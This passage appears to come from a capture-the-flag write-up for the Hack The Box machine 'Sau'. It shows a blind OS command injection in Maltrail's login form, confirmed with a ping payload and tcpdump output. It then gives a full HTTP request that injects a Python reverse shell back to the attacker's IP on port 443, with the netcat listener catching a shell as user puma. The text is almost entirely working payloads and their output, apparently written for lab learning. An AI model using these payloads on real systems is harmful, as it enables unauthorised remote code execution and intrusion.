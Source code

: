 ```
username=test%3b`ping+-c4+10.10.14.234`&hash=1776e602e34d27447a954641218d3df4d2965011690964a4b0b44bfbb0c57554&nonce=J8iJBxndSHMV
```

```bash
┌──(kali㉿kali)-[~/Documents/htb/sau]
└─$ sudo tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
14:26:13.523002 IP 10.10.11.224 > 10.10.14.234: ICMP echo request, id 3, seq 1, length 64
14:26:13.523013 IP 10.10.14.234 > 10.10.11.224: ICMP echo reply, id 3, seq 1, length 64
14:26:14.524081 IP 10.10.11.224 > 10.10.14.234: ICMP echo request, id 3, seq 2, length 64
14:26:14.524093 IP 10.10.14.234 > 10.10.11.224: ICMP echo reply, id 3, seq 2, length 64
14:26:15.525579 IP 10.10.11.224 > 10.10.14.234: ICMP echo request, id 3, seq 3, length 64
14:26:15.525590 IP 10.10.14.234 > 10.10.11.224: ICMP echo reply, id 3, seq 3, length 64
14:26:16.527744 IP 10.10.11.224 > 10.10.14.234: ICMP echo request, id 3, seq 4, length 64
14:26:16.527756 IP 10.10.14.234 > 10.10.11.224: ICMP echo reply, id 3, seq 4, length 64
```

As a result, we successfully triggered the command injection and received ping replies from our machine, confirming the presence of the vulnerability and the risk of blind OS command injection in `Maltrail`.

# SHELL AS PUMA

```
POST /cur1osity/login HTTP/1.1
Host: 10.10.11.224:55555
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/plain, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 128
Origin: http://10.10.11.224:55555
DNT: 1
Connection: close
Referer: http://10.10.11.224:55555/cur1osity

username=test%3b`python3+-c+'import+socket,subprocess,os%3bs%3dsocket.socket(socket.AF_INET,socket.SOCK_STREAM)%3bs.connect(("10.10.14.234",443))%3bos.dup2(s.fileno(),0)%3b+os.dup2(s.fileno(),1)%3bos.dup2(s.fileno(),2)%3bimport+pty%3b+pty.spawn("sh")'`&hash=1776e602e34d27447a954641218d3df4d2965011690964a4b0b44bfbb0c57554&nonce=J8iJBxndSHMV
```

```bash
┌──(kali㉿kali)-[~/Documents/htb/sau]
└─$ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.234] from (UNKNOWN) [10.10.11.224] 58444
$ id; hostname
uid=1001(puma) gid=1001(puma) groups=1001(puma)
sau
```
